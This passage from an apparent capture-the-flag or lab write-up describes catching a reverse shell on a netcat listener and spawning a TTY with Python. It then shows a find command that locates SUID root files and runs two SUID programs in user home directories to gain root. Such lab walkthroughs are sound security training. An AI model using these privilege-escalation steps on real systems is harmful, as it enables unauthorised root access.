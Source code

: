 ![](https://cdn.ziomsec.com/escalate_linux/8.webp)

After the payload was executed on the target, I got a reverse shell on my **netcat** listener.

![](https://cdn.ziomsec.com/escalate_linux/9.webp)

### Spawning TTY

Since I was still a service user, I tried spawning a **TTY** shell using **python**.

> reference: [sushant747.gitbook.io](https://sushant747.gitbooks.io/total-oscp-guide/content/spawning_shells.html)

```shell
# verify python binary
which python
# spawn tty
python -c 'import pty;pty.spawn("/bin/bash")'
```

![](https://cdn.ziomsec.com/escalate_linux/10.webp)

## Privilege Escalation

### Uncommon SUID

I used the following command to find files in the machine owned by root and with SUID bit.

```bash
find / -user root -perm -u=s -ls 2>/dev/null
```

I found 2 interesting files: *script* and *shell*.

![](https://cdn.ziomsec.com/escalate_linux/11.webp)

**USING `/USER3/SHELL`**
I executed the **shell** program in the */home/user3/* directory and gained root access.

```shell
cd /home/user3/
./shell
```

![](https://cdn.ziomsec.com/escalate_linux/12.webp)

**MODIFYING THE `/USER5/SCRIPT` FILE**
I executed the **script** program present in the *user5* directory and obtained results similar to the `ls` command.

```shell
cd /home/user5/
./script
```

![](https://cdn.ziomsec.com/escalate_linux/13.webp)
